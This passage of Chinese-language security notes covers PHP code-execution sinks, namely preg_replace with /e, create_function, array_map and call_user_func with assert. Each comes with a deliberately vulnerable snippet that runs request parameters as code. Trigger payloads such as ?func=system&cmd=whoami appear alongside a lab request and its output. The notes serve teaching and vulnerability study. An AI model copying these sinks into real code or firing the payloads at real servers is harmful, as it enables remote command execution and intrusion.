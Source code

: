 	<?php
	// cmd=phpinfo()
	@preg_replace("/abc/e",$_REQUEST['cmd'],"abcd");
	
	?>


__create_function__

`create_function`主要用来创建匿名函数，如果没有对参数进行过滤，攻击者可以构造特殊字符串给`create_function()`执行任意命令

	string create_function ( string $args , string $code )

[解析create_function() && 复现wp](https://paper.seebug.org/94/)

[PHP create_function()注入命令执行漏洞](https://www.t00ls.net/articles-20774.html)

[PHP create_function()代码注入](http://blog.51cto.com/lovexm/1743442)

	<?php
	// ?cmd=phpinfo();  //必须有分号
	$func = create_function('',$_REQUEST['cmd']);
	$func();
	?>

__array_map()__

[array_map](https://secure.php.net/manual/zh/function.array-map.php)

	array array_map ( callable $callback , array $array1 [, array $... ] )
	array_map()：返回数组，是为 array1 每个元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 array_map() 数组数量，两者必须一样。

`array_map()`函数将用户自定义函数作用到数组的每个值上，并返回用户自定义函数作用后带有新值的数组。

回调函数接受的参数数目应该和传递给`array_map()`函数的数组数目一致。

	<?php
	//?func=system&cmd=whoami
	
	$func = $_GET['func']; // $func 定义为system函数
	$cmd = $_GET['cmd'];
	$array[0] = $cmd;
	$new_array = array_map($func,$array);
	
	?>

应用

	http://192.168.86.194:9000/code/array_map.php?func=system&cmd=whoami
	administrator 

__call_user_func()/call_func_array()__

`call_user_func` 把第一个参数作为回调函数调用，其余参数是回调函数的参数。

	<?php
	// ?cmd=phpinfo()
	@call_user_func(assert,$_GET['cmd']);
	?>


`call_user_func_array` 调用回调函数，并把一个数组参数作为回调函数的参数。
